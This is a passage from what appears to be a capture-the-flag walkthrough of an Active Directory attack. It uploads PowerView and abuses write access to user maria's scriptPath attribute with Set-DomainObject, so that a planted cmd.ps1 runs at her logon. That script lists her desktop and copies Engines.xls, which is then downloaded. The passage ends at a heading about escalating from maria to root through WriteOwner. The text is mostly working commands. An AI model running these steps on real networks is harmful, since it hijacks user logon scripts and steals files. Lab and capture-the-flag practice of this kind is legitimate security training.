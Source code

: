 ### We go to programdata

```
cd c:\programdata
```

### Upload powerview

```
upload powerview.ps1
```
### Run powerview

```
. .\powerview.ps1
```

### Copy maria desktop

```
echo "ls \users\maria\desktop > \programdata\out" > cmd.ps1
```

```
Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}
```

```
type out
```

<img width="953" height="517" alt="image" src="https://github.com/user-attachments/assets/831ebbe5-ce14-42cf-87fc-d8e253f8afc0" />


```
echo "copy c:\users\maria\desktop\Engines.xls c:\programdata\Engines.xls" > cmd.ps1
```


```
Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}
```


<img width="1114" height="360" alt="image" src="https://github.com/user-attachments/assets/2c60abfe-3ee3-4b93-a412-8fc7bf357279" />


### We download the file and open 

```
download Engines.xls
```

<img width="882" height="162" alt="image" src="https://github.com/user-attachments/assets/fe525e8c-fe40-4fb7-b556-5b44d0c72f84" />


# Maria -> Root ( Have WriteOwner )
